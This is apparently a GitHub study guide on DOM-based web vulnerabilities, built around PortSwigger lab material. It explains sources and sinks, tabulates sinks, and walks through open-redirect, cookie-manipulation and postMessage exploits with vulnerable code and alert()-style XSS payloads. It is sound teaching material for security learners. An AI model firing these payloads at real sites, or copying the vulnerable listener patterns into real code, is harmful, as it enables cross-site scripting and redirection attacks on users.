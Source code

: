 # What is DOM 

**There is two terms to find DOM Vulnerbility**
  1- Source
  2- Sink
 
### Source:
 ```
 A source is a JavaScript property that accepts data that is potentially attacker-controlled. An example of a 
 source is the `location.search` property because it reads input from the query string, which is relatively simple 
 for an attacker to control. Ultimately, any property that can be controlled by the attacker is a potential source. 
 This includes the referring URL (exposed by the `document.referrer` string), the user's cookies (exposed by the 
 `document.cookie` string), and web messages.**
 ```
### Sink: 
  ```
  A sink is a potentially dangerous JavaScript function or DOM object that can cause undesirable effects if 
  attacker-controlled data is passed to it. For example, the `eval()` function is a sink because it processes 
  the argument that is passed to it as JavaScript. An example of an HTML sink is `document.body.innerHTML` because it
  potentially allows an attacker to inject malicious HTML and execute arbitrary JavaScript.
  ```
The most common source is the URL, which is typically accessed with the `location` object. An attacker can construct a link to send a victim to a vulnerable page with a payload in the query string and fragment portions of the URL. Consider the following code:
```js
goto = location.hash.slice(1)
if (goto.startsWith('https:')) {
  location = goto;
}
```
This is vulnerable to DOM-based open redirection because the `location.hash` source is handled in an unsafe way. If the URL contains a hash fragment that starts with `https:`, this code extracts the value of the `location.hash` property and sets it as the location property of the window. An attacker could exploit this vulnerability by constructing the following URL:
 - ```https://www.innocent-website.com/example#https://www.evil-user.net```
 
 ## Which sink can lead to DOM-based Vulnerabilities?
 
 #### The following list provides a quick overview of common DOM-based vulnerabilities and an example of a sink that can lead to each one. For a more comprehensive list of relevant sinks, please refer to the vulnerability-specific pages by clicking the links below.
 
|DOM-based vulnerability		|		Example sink            |     
|-------------------------------|-------------------------------|		
|[DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)            					|		document.write()		|			
|[Open redirection LABS](https://portswigger.net/web-security/dom-based/open-redirection)			|		window.location			|			
|[Cookie manipulation LABS](https://portswigger.net/web-security/dom-based/cookie-manipulation)		|		document.cookie			|		
|[JavaScript injection](https://portswigger.net/web-security/dom-based/javascript-injection)			|		eval()					|
|[Document-domain manipulation](https://portswigger.net/web-security/dom-based/document-domain-manipulation)	|		document.domain				|	
|[WebSocket-URL poisoning](https://portswigger.net/web-security/dom-based/websocket-url-poisoning)		|		WebSocket()					|
|[Link manipulation](https://portswigger.net/web-security/dom-based/link-manipulation)				|		element.src 				|	
|[Web message manipulation](https://portswigger.net/web-security/dom-based/web-message-manipulation)		|		postMessage()				|	
|[Ajax request-header manipulation](https://portswigger.net/web-security/dom-based/ajax-request-header-manipulation)|		setRequestHeader()			|	
|[Local file-path manipulation](https://portswigger.net/web-security/dom-based/local-file-path-manipulation)	|		FileReader.readAsText()		|		
|[Client-side SQL injection](https://portswigger.net/web-security/dom-based/client-side-sql-injection)		|		ExecuteSql()				|	
|[HTML5-storage manipulation](https://portswigger.net/web-security/dom-based/html5-storage-manipulation)		|		sessionStorage.setItem()	|		
|[Client-side XPath injection](https://portswigger.net/web-security/dom-based/client-side-xpath-injection)	|		document.evaluate()			|	
|[Client-side JSON injection](https://portswigger.net/web-security/dom-based/client-side-json-injection)		|		JSON.parse()				|		
|[DOM-data manipulation](https://portswigger.net/web-security/dom-based/dom-data-manipulation)			|		element.setAttribute()		|			
|[Denial of service](https://portswigger.net/web-security/dom-based/denial-of-service)				|		RegExp()					|
 
## Exploiting : Cookie Manipulation 
  ```html
  <script>
       document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
   </script>
  ```
   If the website unsafely reflects values from cookies without HTML-encoding them, an attacker can use cookie-manipulation techniques to exploit this behavior.

 
 ## Exploiting web message 
 
 **1- Exploit the postMessage Vulnerability:**
  ```js
  Here is vulnerable code:
  window.addEventListener('message', function(e) {
          document.getElementById('ads').innerHTML = e.data;
   })

  ```
  *Exploit:*
  
    - Goto the source tab add breakpoint to document.getElement
    - Goto the console tab
    - window.postMessage('<img src=x onerror=alert(1)>','*')
    - You should get alert popup


**2- Explot postMessage Vulnerability:**

  Here is vulnerable code:
  ```js
  window.addEventListener('message', function(e) {
      var url = e.data;
          if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                  location.href = url;
           }
  }, false);
  ```

   *Analysis:*
    This script sends a web message containing an arbitrary JavaScript payload, along with the string "http:". The second argument 
    specifies that any targetOrigin is allowed for the web message.

   When the iframe loads, the postMessage() method sends the JavaScript payload to the main page. The event listener spots the 
   "http:" string and proceeds to send the payload to the location.href sink, where the print() function is called.

  **Exploit:** 
  
    1- Goto the developer tool in source tab add breakpoint to the `url` var.   
    2- Then goto the console tab type 
        window.postMessage('javascript:alert(1)//http:','*')
    3- You can Iframe to exploit for poc


 **3. Exploiting postMessage DOM using JSON**
 
   Here is Vulnerable Code
   ```js
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
```
**Analysis:**

  Notice that the home page contains an event listener that listens for a web message. This event listener expects a string that is parsed using `JSON.parse()`. In the JavaScript, we can see that the event listener expects a type property and that the `load-channel` case of the `switch` statement changes the `iframe` `src` attribute.

  When the `iframe` we constructed loads, the `postMessage()` method sends a web message to the home page with the type `load-channel`. The event listener receives the message and parses it using `JSON.parse()` before sending it to the `switch.`

  The switch triggers the `load-channel` case, which assigns the url property of the message to the src attribute of the `ACMEplayer.element` `iframe`. However, in this case, the `url` property of the message actually contains our JavaScript payload.

  As the second argument specifies that any `targetOrigin` is allowed for the web message, and the event handler does not contain any form of origin check, the payload is set as the src of the `ACMEplayer.element` `iframe`. The `print()` function is called when the victim loads the page in their browser.

**Exploit:**
  -  Goto the source tab add break point to `var  iframe`.
  -  Then switch to console tab and write down.
      window.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert(1)\"}","*")
  - You will get alert window.
  - Iframe this exploit for poc.

 
 
 
 
 
 
 
 
